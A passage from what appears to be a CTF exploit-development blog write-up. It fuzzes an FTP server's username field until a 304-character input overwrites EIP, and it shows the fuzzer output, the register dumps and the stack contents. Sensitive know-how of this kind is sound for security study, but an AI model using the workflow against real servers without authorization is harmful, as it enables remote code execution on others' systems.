 ![Debug breakpoint while fuzzing](/uploads/2014/03/01-int3.png)

To get around this problem I just modified the assembly inline using Immunity so that the breakpoint (`CC`) instruction was instead a NOP (`90`) instruction like so:

![Changed to NOP](/uploads/2014/03/02-nop.png)

With this out of the way the script ran nicely. Until...

{% codeblock Fuzzing %}
$ ./fuzz.py
[*] Fuzzing 10.1.10.34:21 ...
[*] Username 16 chars, Command 23 chars...
[*] Username 32 chars, Command 39 chars...
[*] Username 48 chars, Command 55 chars...
[*] Username 64 chars, Command 71 chars...
[*] Username 80 chars, Command 87 chars...
[*] Username 96 chars, Command 103 chars...
[*] Username 112 chars, Command 119 chars...
[*] Username 128 chars, Command 135 chars...
[*] Username 144 chars, Command 151 chars...
[*] Username 160 chars, Command 167 chars...
[*] Username 176 chars, Command 183 chars...
[*] Username 192 chars, Command 199 chars...
[*] Username 208 chars, Command 215 chars...
[*] Username 224 chars, Command 231 chars...
[*] Username 240 chars, Command 247 chars...
[*] Username 256 chars, Command 263 chars...
[*] Username 272 chars, Command 279 chars...
[*] Username 288 chars, Command 295 chars...
[*] Username 304 chars, Command 311 chars...
{% endcodeblock %}

When the username hit `304` characters, things turned bad for the server. Immunity showed the following information about the registers:

{% codeblock Register contents %}
EAX 00000000
ECX 0024A9C0
EDX 0000002F
EBX 41414141
ESP 00B5FFC0
EBP 41414141
ESI 41414141
EDI 41414141
EIP 41414141
{% endcodeblock %}

At this point it looks like we have a "vanilla" `EIP` overwrite. Taking a look at the stack window we can see something interesting:

{% codeblock Stack contents %}
00B5FF90   00000000  ....
00B5FF94   00000000  ....
00B5FF98   00000000  ....
00B5FF9C   41414141  AAAA
00B5FFA0   41414141  AAAA
00B5FFA4   41414141  AAAA
00B5FFA8   41414141  AAAA
00B5FFAC   41414141  AAAA
00B5FFB0   41414141  AAAA
00B5FFB4   41414141  AAAA
00B5FFB8   41414141  AAAA
00B5FFBC   00000A00  ....
00B5FFC0   0024A760  `§$.                    <-- ESP points here
00B5FFC4   00249E10  ž$.

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux